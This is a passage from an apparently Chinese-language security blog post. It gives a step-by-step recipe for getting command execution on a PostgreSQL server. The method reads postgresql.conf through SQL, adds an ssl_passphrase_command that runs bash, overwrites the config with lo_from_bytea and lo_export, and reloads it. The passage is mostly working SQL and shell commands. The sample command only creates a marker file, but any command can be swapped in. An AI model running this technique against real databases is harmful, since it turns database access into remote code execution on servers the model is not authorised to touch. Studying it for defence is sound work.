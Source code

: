 [![49.png](assets/1698894509-aedf6fc1615ecdfc746d4e5ad8f6731e.png)](https://storage.tttang.com/media/attachment/2022/04/13/a604d4f8-d1d5-470d-8ee2-b663c09a36b1.png)

读取配置文件内容

```plain
select setting from pg_settings where name='config_file'
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```

在原始配置文件内容末尾追加上 ssl 配置

```plain
ssl = on
ssl_cert_file = '/etc/ssl/certs/ssl-cert-snakeoil.pem'
ssl_key_file = '/var/lib/postgresql/data/PG_VERSION'
ssl_passphrase_command_supports_reload = on
ssl_passphrase_command = 'bash -c "touch /tmp/success & echo 12345678; exit 0"'
```

转为 base64 格式

```plain
# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base3.txt
```

```plain
-- 将修改后的配置文件加载到 largeobject 中
select lo_from_bytea(10001,decode('base64 的内容，这里略','base64'));

-- 通过 lo_export 覆盖配置文件
select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');
SELECT lo_unlink(10001);

-- 重新加载配置文件
select pg_reload_conf();
```

